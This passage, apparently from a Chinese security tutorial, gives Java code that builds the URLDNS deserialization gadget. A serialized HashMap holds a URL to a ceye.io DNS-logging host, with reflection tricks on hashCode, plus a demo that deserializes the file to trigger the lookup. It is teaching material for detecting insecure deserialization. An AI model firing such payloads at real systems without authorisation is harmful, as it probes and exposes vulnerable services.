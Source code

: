 
```java
package code;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {

    public static void main(String[] args) throws Exception {
        HashMap hashmap = new HashMap();
        URL url = new URL("http://6ixtjn.ceye.io");
        //反射获取url Class
        Class<? extends URL> urlClass = url.getClass();
        //获取hashCode字段
        Field field = urlClass.getDeclaredField("hashCode");
        //由于hashCode是私有属性，所以需要绕过权限控制检查
        field.setAccessible(true);
        //设置hashCode的值为1，让其在put的时候不去进行DNS请求
        field.set(url,1);
        hashmap.put(url, 1);
        //put后再把hashCode的值改为-1，让其能够在反序列化时进行DNS请求
        field.set(url,-1);

        try {
            FileOutputStream fileOutputStream = new FileOutputStream("./urldns.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashmap);
            objectOutputStream.close();
            fileOutputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


注意看代码中的注释即可。


然后在反序列化，即可触发DNS请求。


```java
package code;

import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class UnSerializeDemo {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        FileInputStream fileInputStream = new FileInputStream("urldns.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Object o = objectInputStream.readObject();
        objectInputStream.close();
        fileInputStream.close();
    }
}
```
